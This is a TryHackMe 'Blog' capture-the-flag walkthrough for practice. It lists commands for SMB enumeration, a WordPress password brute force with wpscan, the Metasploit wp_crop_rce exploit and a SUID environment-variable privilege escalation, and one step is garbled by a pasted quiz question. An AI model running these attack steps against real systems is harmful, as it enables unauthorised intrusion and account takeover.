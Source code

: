 # Blog

<img align="right" src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/blog/blog01.png" width="150" height="150">

LINK = [https://tryhackme.com/room/blog](https://tryhackme.com/room/blog)

### FYI
This writeup don't include any passwords/cracked hashes/flags

# Description
Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

# Steps

1 - Add the dns registerWhat tool will allow us to enumerate port 139/445?
* ```echo "<ip-virtual-machine> blog.thm >> /etc/hosts```

2 - Scan the open ports
* ```nmap -sV <ip-virtual-machine>```

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/blog/blog02.png" width="50%">

3 - Scan the SMB share folders
* ```smbmap.py -H <ip-virtual-machine>```

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/blog/blog03.png" width="50%">


4 - Let's examinate the contect of the share folder
* ```smbclient //<ip-virtual-machine>/BillySMB```

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/blog/blog04.png" width="50%">

5 - Download all the content of the share folder
* ```smbget -R smb://<ip-virtual-machine>/BillySMB```

6 - Check the files for hiden data ( *Sadly it's a rabbit hole 😞*)
* ```steghide extract -sf <filename>```

7 - Scan the Wordpress for usernames
* ```wpscan --url blog.thm -e u```

8 - Using the 2 usernames that we found lets try to get the passwords
* ```wpscan --url blog.thm -U kwheel,bjoel -P /usr/share/wordlists/rockyou.txt --password-attack wp-login -t 64```

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/blog/blog05.png">

9 - Base on the wpscan we know that is using Wordpress 5.0, lets search an exploit for it
* ```msfconsole```
* ```searchsploit wordpress core 5.0```
* ```search crop-image```
* ```use exploit/multi/http/wp_crop_rce```

10 - Set all the necesary options from the exploit
* ```set RHOST <ip-virtual-machine>```
* ```set USERNAME kwheel```
* ```set PASSWORD <password-from-wpscan>```
* ```exploit```

11 - Now that we have the shell lets search how to escalate privileges
* ```find / -perm -u=s -type f 2>/dev/null```

12 - Executing the only sbin from the output we see that we are not Root
* ```ltrace checker```

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/blog/blog06.png">

* We can see that the binary checks if the admin environment variable is declared, so lets declare one
* ```export admin=thm```

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/blog/blog07.png">

* execute the binary again and you will see that you are now root

13 - Search for the file ```user.txt```
* ```find / -name user.txt 2>/dev/null | grep user.txt```

14 - Get the flags!! 😎
